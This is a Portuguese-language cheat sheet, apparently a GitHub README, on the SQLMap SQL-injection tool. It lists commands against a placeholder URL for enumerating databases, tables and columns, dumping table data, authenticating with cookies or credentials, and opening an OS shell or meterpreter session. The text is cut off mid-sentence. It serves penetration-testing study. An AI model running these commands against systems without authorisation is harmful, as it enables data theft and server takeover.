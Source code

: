 # SQLMap: The Basics 💉

## 📌 O que é o SQLMap?
- **SQLMap** é uma ferramenta automatizada para detecção e exploração de vulnerabilidades de **SQL Injection**.  
- Facilita ataques que seriam feitos manualmente, identificando parâmetros vulneráveis e permitindo **extração de dados, acesso ao sistema operacional e até escalonamento de privilégios**.  

---

## 🚀 Uso Básico
Executar um teste simples de injeção:
```bash
sqlmap -u "http://site.com/page.php?id=1"
```
- `-u` → define a URL alvo.
- SQLMap irá testar automaticamente injeções comuns.
  Opções Importantes
## 🔍 Detecção
```bash
sqlmap -u "http://site.com/page.php?id=1" --dbs
```
`--dbs` → lista os bancos de dados disponíveis.
```bash
sqlmap -u "http://site.com/page.php?id=1" --tables -D <banco>
```
`--tables -D` → lista as tabelas dentro de um banco específico.
```bash
sqlmap -u "http://site.com/page.php?id=1" --columns -D <banco> -T <tabela>
```
`--columns` → lista colunas de uma tabela.
```bash
sqlmap -u "http://site.com/page.php?id=1" --dump -D <banco> -T <tabela>
```
`--dump` → extrai os dados da tabela alvo.
⚙️ Opções de Autenticação
```bash
sqlmap -u "http://site.com/page.php?id=1" --cookie="PHPSESSID=12345"
```
--cookie → permite usar sessões autenticadas.
```bash
sqlmap -u "http://site.com/page.php?id=1" --auth-type=basic --auth-cred="user:pass"
```
`--auth-type` + `--auth-cred` → autenticação HTTP básica/digest.
## 🎯 Controle de Alvo
```bash
sqlmap -r request.txt
```
`-r` → usa um arquivo de requisição HTTP (capturado pelo Burp Suite, por exemplo).
```bash
sqlmap -u "http://site.com/page.php?id=1" --level=5 --risk=3
```
`--level` (1-5) → profundidade dos testes.
`--risk` (1-3) → risco dos payloads.

## 💻 Acesso ao Sistema
```bash
sqlmap -u "http://site.com/page.php?id=1" --os-shell
```
`--os-shell` → obtém uma shell interativa no servidor.
```bash
sqlmap -u "http://site.com/page.php?id=1" --os-pwn
```
`--os-pwn` → tenta acesso direto ao sistema (meterpreter
